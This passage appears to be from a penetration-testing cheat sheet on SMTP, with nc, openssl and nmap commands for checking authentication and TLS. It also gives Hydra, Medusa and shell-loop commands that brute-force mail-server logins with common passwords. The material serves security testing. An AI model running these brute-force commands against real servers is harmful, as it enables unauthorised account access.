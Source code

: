 
## Authentication Testing

### SMTP AUTH Testing
```bash
# Check for authentication methods
echo "EHLO test.com" | nc target 587

# Look for AUTH methods:
# 250-AUTH LOGIN PLAIN CRAM-MD5

# Manual authentication testing
echo -e "EHLO test.com\nAUTH LOGIN\n$(echo -n 'username' | base64)\n$(echo -n 'password' | base64)" | nc target 587
```

### Brute Force Authentication
```bash
# Hydra SMTP brute force
hydra -L users.txt -P passwords.txt smtp://target:587

# Medusa SMTP brute force
medusa -h target -u admin -P passwords.txt -M smtp -n 587

# Custom authentication testing
for user in admin user root; do
    for pass in password admin 123456; do
        echo "Testing $user:$pass"
        echo -e "EHLO test.com\nAUTH LOGIN\n$(echo -n $user | base64)\n$(echo -n $pass | base64)" | nc target 587
    done
done
```

---

## Advanced Techniques

### SSL/TLS Testing
```bash
# SMTPS (port 465) connection
openssl s_client -connect target:465

# STARTTLS (port 587) connection
openssl s_client -connect target:587 -starttls smtp

# Cipher enumeration
nmap --script ssl-enum-ciphers -p 465,587 target

# Certificate analysis
echo | openssl s_client -connect target:465 2>/dev/null | openssl x509 -noout -text
```
